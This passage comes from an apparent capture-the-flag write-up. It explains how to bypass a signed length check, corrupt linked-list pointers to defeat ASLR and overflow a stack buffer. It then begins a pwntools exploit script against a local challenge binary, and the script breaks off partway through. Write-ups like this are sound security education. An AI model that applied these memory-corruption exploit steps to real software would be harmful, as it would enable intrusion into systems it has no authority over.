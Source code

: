 Doing this is not particularly difficult, thanks to the signed compare mentioned earlier. Since the signed comparison is done between `ax` (the lowest 16 bits of the length of the string) and `0x800`, a string of any length from `0x????8000` to `0x????FFFF` will pass the check. We don't have to worry about corrupting the stack because there are more than `0x10000` bytes of padding between the buffer overflow and the rest of the stack.

One or two minor details before we're done:

1. As part of normal program execution, all old linked list nodes and their corresponding strings will be freed first. Since we tampered with the pointers to these strings to break ASLR earlier, this will cause a crash on `free()` unless we overwrite the `next` pointer of the head node with a null pointer to trick the program into thinking that there's nothing to be freed.

2. `cin` will stop reading if we reach a whitespace character, which will cause the program to read not all of our payload. The sanity check XOR helps us in this way, and we can choose a character sequence that makes this less likely. It's not 100% avoidable because there's always a chance such a character will show up in one of the leaked addresses though.

### Putting it all together

This is all we need to piece together the whole exploit and recover the flag.

```python
from pwn import *

# Note: many of the steps have a small chance to fail if a misbehaving character shows up in the payload (e.g. \n).
# There's nothing much I can do about that.

def p64_xor(addr):
    r = []
    for i in range(8):
        r += [(addr%256)^48]
        addr //= 256
    return bytes(r)
	
def ptr_int(byte_arr):
    r = 0
    for i in range(8):
        r += byte_arr[i]*(256**i)
    return r

p = process("./some_program")

# Pass the sanity check
p.sendlineafter(b"//////////////////////////////////", b"1")
p.sendlineafter(b"Your answer: ", b"0"*80)

# Head node (#0)
p.sendlineafter(b"//////////////////////////////////", b"2")
p.sendlineafter(b"Passphrase: ",b"A")

# Append a node (#1)
p.sendlineafter(b"> ",b"1")
p.sendlineafter(b"Enter string: ",b"B"*0x100)

# Append another node (#2)
p.sendlineafter(b"> ",b"1")
p.sendlineafter(b"Enter string: ",b"C"*0x100)

# Corrupt node 1
p.sendlineafter(b"> ",b"2")
p.sendlineafter(b"replace: ",b"1")
p.sendlineafter(b"with: ",b"D"*0x80000000)

# Leak the address of node 1 by reading node 2's prev field
```